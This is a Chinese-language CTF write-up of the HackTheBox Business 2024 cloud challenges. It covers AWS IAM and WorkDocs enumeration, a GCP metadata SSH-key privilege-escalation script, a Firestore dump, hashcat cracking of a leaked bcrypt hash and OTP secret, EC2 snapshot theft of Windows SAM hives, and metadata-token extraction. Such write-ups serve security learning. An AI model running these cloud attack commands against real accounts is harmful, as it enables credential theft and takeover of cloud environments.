


# HackTheBox Business 2024 Cloud

## Background

我和比较熟悉的 Hackthebox 的外国队友组队参加了今年，也就是 2024 年的 Hackthebox Business CTF 。这次比赛主要面向企业队伍和用户开放，通过积分板不难发现，谷歌微软均在此列。

当然，本次比赛的结果是，我们拿下了 25 名，一共 900 多的参赛队伍。在比赛中，我这里主要负责的方向是云模块，最终的战绩是 4/5 。至于最后一道 insane 的问题会在后面进行说明。

很遗憾，虽然写作 WP， 但是这篇文章主要用于摘录 本次 CTF 比赛的一些有意思、我认为值得分享的关键点。

官方 wp 已经在赛后第一时间发出: https://github.com/hackthebox/business-ctf-2024 

> 本篇文章和官方 wp 并不冲突，主讲亲身经历，建议配合使用。
## Key Points

我们从难度最低的挑战开始梳理。

### 1. \[Very Easy\] Scurried

信息只有一个： AROAXYAFLIG2BLQFIIP34

非常简单 Scurried 。基本没有关键点，直接在 Hacking the Cloud https://hackingthe.cloud/aws/enumeration/enumerate_principal_arn_from_unique_id/ 上就有信息。基本就一步之遥。

### 2. \[Easy\] Protrude

第二个挑战开局赠送了一对 AK。什么都没给。非常简单，首先上来就开始枚举 IAM 权限。这里有很多项目可以做这件事。

1. [Enumerate-IAM](https://github.com/andresriancho/enumerate-iam)
2. [BF-AWS-Permissions](https://github.com/carlospolop/bf-aws-permissions)

> KeyPoint: 这类枚举的原理并不单单是简单的尝试访问 API。
> 
> 其本质是通常对于一个 API 设计来说，采用多个中间层、实际业务处理、返回包装这样的设计进行处理。而其中中间层，主要负责转发请求、完成鉴权等等辅助功能，并且一层一层的向后传递包和信息到实际业务执行或操作执行处。

这里我们可以摸到  `ds.describe_directories()` 的权限，查一下就是 directory service 目录服务。通常来说当一个 AK 对某个特定服务具有某些权限时，一般会同时拥有其他相关权限。所以这里就从 ds 目录服务开始看。

在 describe 目录的返回中，很容易找到 accessurl vault101.awsapps.com 通过访问这个发现是 workdocs  workdocs 是 aws 一项服务。在 aws cli 中也有对应的 API 。

那么接下来就很简单了，使用之前 describe 目录的组织 ID

```sh
aws workdocs describe-activities --organization-id d-9067e0513b
``` 

尝试获取点信息 包括列出用户、列出活动等。在列出活动中，可以获得一大串 json 。其中就含有 flag.txt flag.pdf 等字符串。这样我们就尝试去获取对应的 flag 

```
aws workdocs get-document --document-id 77c4bd695e891b73b67f8c6c11df9baa76b47a2f0fe837ef201f34f5de0fb3e3
```

不过，其实这个题目当时是出现了一点问题的因为她的 flag 其实是有两个，这道题目是经过修复的。

```json
            "ResourceMetadata": {
                "Type": "document",
                "Name": "flag.txt",
                "Id": "5347a27512a4f5a1c0ed4b7e965210deecbb6b806a23034ce799614ca32a8303",
                "Owner": {
                    "Id": "S-1-5-21-1692074632-1250882497-497425265-500&d-9067e0513b"
                }
            }
            "ResourceMetadata": {
                "Type": "document",
                "Name": "flag.txt",
                "Id": "77c4bd695e891b73b67f8c6c11df9baa76b47a2f0fe837ef201f34f5de0fb3e3",
                "Owner": {
                    "Id": "S-1-5-21-1692074632-1250882497-497425265-500&d-9067e0513b"
                }
            }
```

第一个 flag 是 `HTB{AWS_WORKDOCS_CAN_HAVE_USEFUL_STUFF}` 这是未修复之前的 flag。


### 3. \[Easy\] MetaRooted

这个难度也不大，看到名字其实就知道是 Metadata 然后提权。这题给了一个 SSH key 和链接方法，可以让我们登陆上去然后做题。

很容易找到对应的文章，https://cloud.hacktricks.xyz/pentesting-cloud/gcp-security/gcp-privilege-escalation/gcp-compute-privesc/gcp-add-custom-ssh-metadata 

直接 root 是不行的，但是我们可以添加一个不存在的账户，这种账户就会是一个带有 Sudo 被 google 确认的东西。

```sh
# define the new account username
NEWUSER="definitelynotahacker"
# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""
# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt
# update the instance metadata
gcloud compute instances add-metadata vault-instance --zone us-central1-a --metadata-from-file ssh-keys=meta.txt
# ssh to the new account
ssh -i ./key "$NEWUSER"@34.132.25.162
```

当然这里不能直接用 Hacktricks 的脚本，需要注意可用区需要直接指定 `us-central1-a` 要不然会在 gcloud 自己枚举可用区的时候暴毙。

这道题的 iam 其实收束的不是很好。我们可以通过 get-iam-policy 得到 project 的 policy。指令为 `gcloud projects get-iam-policy ctfs-417807`

你可以越权得到

```json
bindings:
  - members:
      - serviceAccount:vault-27@ctfs-417807.iam.gserviceaccount.com
    role: projects/ctfs-417807/roles/VaultManager
  - members:
      - serviceAccount:service-298988677029@gcp-sa-cloudscheduler.iam.gserviceaccount.com
    role: roles/cloudscheduler.serviceAgent
  - members:
      - serviceAccount:service-298988677029@compute-system.iam.gserviceaccount.com
    role: roles/compute.serviceAgent
  - members:
      - serviceAccount:298988677029-compute@developer.gserviceaccount.com
      - serviceAccount:298988677029@cloudservices.gserviceaccount.com
    role: roles/editor
  - members:
      - serviceAccount:firestore@ctfs-417807.iam.gserviceaccount.com
    role: roles/firebase.viewer
  - members:
      - serviceAccount:service-298988677029@firebase-rules.iam.gserviceaccount.com
    role: roles/firebaserules.system
  - members:
      - serviceAccount:service-298988677029@gcp-sa-firestore.iam.gserviceaccount.com
    role: roles/firestore.serviceAgent
  - members:
      - user:dimos@hackthebox.eu
      - user:felamos@hackthebox.eu
      - user:makelarisjr@hackthebox.eu
      - user:mr_r3boot@hackthebox.eu
      - user:polarbearer@hackthebox.eu
    role: roles/owner
  - members:
      - user:polarbearer@hackthebox.eu
    role: roles/resourcemanager.organizationAdmin
  - members:
      - serviceAccount:storage@ctfs-417807.iam.gserviceaccount.com
    role: roles/secretmanager.secretAccessor
  - members:
      - serviceAccount:storage@ctfs-417807.iam.gserviceaccount.com
    role: roles/secretmanager.viewer
etag: BwYYybN4iYQ=
version: 1
```

具体这里用到的东西不多。除了需要列举自己的 role 具有什么权限。当然这里用处不大，别的题里用处就很大了，导致下一题大部分路径都可以被暴露出来。这里先按下不表。

### 4. \[Medium\] CloudOfSmoke

先是看到 storage 然后翻看这个公开桶，遇到筒子打基本都要去翻看 versioning 和 versioning 的状态的。然后就会翻到 其中的第二个凭据。这时候我们会发现 正是遗失的 firestore 用户和她的权限。

那么这 firestore 是个啥呢？是个 存储 或者说 文档型数据库 是 google firebase 系统的一部分。而 firebase 是 google 的 云 + APP 客户端开发平台。很多其他的搜索都可以找到 如何逆向 APP 后获得 APP 密钥然后打进云上数据库的。这里官方 wp 中选择了 编程，然后利用。

但是这样就复杂了 你如果第一时间看这个东西你根本分不清 collections collection groups documents indexes fields 这种概念。遇到数据库，像是这种简单的数据库 肯定是 dump 出来，我管你三七二十一。

有两种办法
    
1. npm install firestore-backfire @google-cloud/firestore
2. npx -p node-firestore-import-export firestore-export -a ./serviceAccountKey.json -b backup.json
    
第一个是 google 的 firestore-backfire 第二个是 node-firestore-import-export 。第二个比较无脑，直接第二个拿过来就用。把 key.json 一放，开导数据。然后我们就会得到一个大 json

`{"__collections__":{"vault_user_store":{"sppPjk7IpkrtQyfJ0IXC":{"password":"$2a$04$sJkZ52ZZVT/MnH6SWxRnUuC0ZRTeAn7kqMGftXghlU0qSqLGVy6.q","secret":"KZZXERL4OFNHW6TBJQ7GKIJM","username":"maximus","id":1,"__collections__":{}}}}}`

这下，密码和 secrets 都有了。记得阅读他们 app.js 的代码 ，你会发现还有个 OTP 路径，不难猜到这里的 secrets 就是 OTP secrets。密码一开始我用的 rockyou。但是跑到 61% 的时候我觉得不太对，按理说应该能出，但是要是出了 secrets manager 就没用了不是么？我们拿到 secrets。

注意 google 这里的 secrets 也是有 versioning 的，分别拿到两个版本的 secrets 加入字典，跑 hashcat，发现对上了，几乎秒破。那么直接拿上这些个凭据 就上去了。这道题就这么结束了。

### 5. \[Insane\] Asceticism

有一种数学最后一道的美，前面和 WP 一样，先来一个 `aws sts get-caller-identity`。先看看自己是谁。然后 enumerate-iam 开始枚举 IAM。发现能碰到桶子。那还是老套路。bucket + versioning。拿到 snapper 的权限，继续 `aws sts get-caller-identity` +  eumerate-iam 组合拳。AWS 不是 Aliyun Web Service，而且这是比赛 不用担心 AK 被封和告警的问题。狠狠的暴力枚举就完事了。

发现和用户 UID 一样，但是叫做 snapper，有 snapshot ec2 的权限，开始 describe 获取信息。describe ec2 可以看到三点。
- 一个是 公网IP， 这意味着我们可以碰到它
- 一个是 这是 windows 机器，说明我们拿到 NTLM 就能碰到他。我们需要注意她的 image 来自自定义的 AMI
- 这个机器绑定了 KMS 权限。

留意下系统盘符的标识，这样我们试着如果有备份快照权限就可以来拉或者开共享。大家打过或者考过 OSCP 的，都知道 Windows NTLM 是个很强的帮手，能让我们通过 NTLM hash 进出机器认证服务不需要密码。

如果你搜索对应的利用 你就会发现有对应域控的利用，主要是一个叫做 CloudCopy 的工具。 然后你可以通过对 EC2 打 snapshot 然后取证 NTDS 然后获取域内凭据。但是，这里没有域，所以用 Local Secretsdump 的办法，获得他的 SAM 、 SYSTEM、 SECURITY 然后 dump ！

> 这里后来发现官方为了降低难度用的是 1G 的 snapshot 然后走的 VM 取证，拿的是 Backup 盘而不是系统盘，我这里是常规的渗透思路。

我这里 autopsy 去拿出来的，实际上可以学习他这种做法，进行挂载。还需要额外注意这个ec2 绑定了一个 iam role 和 kms 有关系，所以上去第一件事就是 metadata 拿了 token 开始枚举。

> 此外，上去的时候，他是开了 smb 但是之前有人开了 rdp 所以其实可以 rdp 。但是后来关掉了，官方在桌面留了个文档说 RDP 和题目无关，就把 RDP ban 掉了。

就按照他的 smbexec / psexec 来 ，他这里其实还开着 windows defender，所以 Ban 掉 RDP 之后，我们就要对付杀毒软件了。如果正常渗透的时候，可能需要额外做一次免杀。

不过这里，不用管他。反正我们上去是直接请求 metadata 的，所以有 powershell 直接 Invoke-WebRequest metadata 把 Token 拿出来本地打就行。

然后他这里有设计失败的地方就出来了。wp写的是 list ec2 create snapshot，实际上枚举出来的不符。





然后我就卡住了，我一直在想s3和kms的关系没意识那个backup powershell script 我和队友说那就是个 snapshot 就没管他 。然后就没出来，哈哈。

如果你真的打云渗透基本不会有这情况。他代码边上的凭据一般就能揭示一些这个 AK 的权限的。如果不是，那开发肯定不正常。

这里我猜测，个人猜测。我认为在运行备份之前，这里应该放的是 snapper 的 AK SK。然后他们降低了他的权限并替换成 vaultmanager。我不确定这个出于什么目的，可能是突然要求增加难度等等。但是这样直接导致，这里后半部分做的比较刻意。实际上你在渗透过程中会感觉到又一些割裂感和违和感，我和我的队友都感觉到了，但是不清楚为什么，直到我看到了 WP。 

赛后和一些做云的师傅做了一些交流，详细过程可以看：tari 师傅的文章，https://tari.moe/en/2024/htb-business-ctf-the-vault-of-hope.html。


## End

总的来说，收获蛮多，又找回了那时候爆肝打 CTF 的感觉。